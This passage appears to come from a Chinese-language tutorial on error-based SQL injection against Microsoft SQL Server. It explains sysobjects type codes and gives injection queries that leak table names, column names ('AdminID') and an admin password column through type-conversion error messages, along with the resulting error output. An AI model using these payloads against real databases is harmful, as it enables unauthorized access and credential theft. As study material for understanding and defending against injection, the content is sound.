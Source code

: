 ```mssql
在将 nvarchar 值 'Fanmv_Admin' 转换成数据类型 int 时失败。
```

此处`xtype`可以是下列对象类型中的一种： 

| 缩写 | 全称                         |
| :--: | :--------------------------- |
|  C   | CHECK 约束                   |
|  D   | 默认值或 DEFAULT 约束        |
|  F   | FOREIGN KEY 约束             |
|  L   | 日志                         |
|  FN  | 标量函数                     |
|  IF  | 内嵌表函数                   |
|  P   | 存储过程                     |
|  PK  | PRIMARY KEY 约束（类型是 K） |
|  RF  | 复制筛选存储过程             |
|  S   | 系统表                       |
|  TF  | 表函数                       |
|  TR  | 触发器                       |
|  U   | 用户表                       |
|  UQ  | UNIQUE 约束（类型是 K）      |
|  V   | 视图                         |
|  X   | 扩展存储过程                 |

此处的`sysobjects`等同于` [master].[sys].[objects]`

爆列名

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'Fanmv_Admin'));
```

```mssql
在将 nvarchar 值 'AdminID' 转换成数据类型 int 时失败。
> [22018] [Microsoft][SQL Server Native Client 10.0][SQL Server]在将 nvarchar 值 'AdminID' 转换成数据类型 int 时失败。 (245)
```

爆数据

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(SELECT TOP 1 AdminPass from Fanmv_Admin);
```
